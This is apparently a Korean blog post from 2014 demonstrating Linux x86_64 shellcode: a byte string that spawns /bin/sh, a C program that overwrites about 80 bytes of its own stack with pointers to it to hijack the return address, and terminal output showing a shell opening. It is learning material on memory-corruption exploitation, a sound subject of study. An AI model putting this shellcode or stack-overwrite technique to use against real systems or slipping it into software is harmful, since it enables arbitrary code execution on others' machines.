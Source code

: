 ```yaml
---
layout: post
title: "Linux x86_64 shellcode 3"
date: 2014-11-10 01:41:33 +0900
comments: true
categories: 
---
```


이번에는 계산해서 `return address` 를 덮어쓰는 것이 아니라, 80 바이트정도로 스택 프레임을 밀어본다. 그래도 동작한다.

    char *_shellcode = ""
        "\x48\x31\xd2"
        "\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68"
        "\x48\xc1\xeb\x08"
        "\x53"
        "\x48\x89\xe7"
        "\x48\x31\xc0"
        "\x50"
        "\x57"
        "\x48\x89\xe6"
        "\xb0\x3b"
        "\x0f\x05" ;

    char *_shells[10];

    void explode() {
        long *ret;
        memcpy(&ret,_shells,8*10);
    }

    main()
    {
        int i;
        for (i=0;i<10;i++) _shells[i]=_shellcode;
        explode();
    }

    z@ubuntu:~/shells% gcc s3.c -o s3
    z@ubuntu:~/shells% ./s3
    $ 

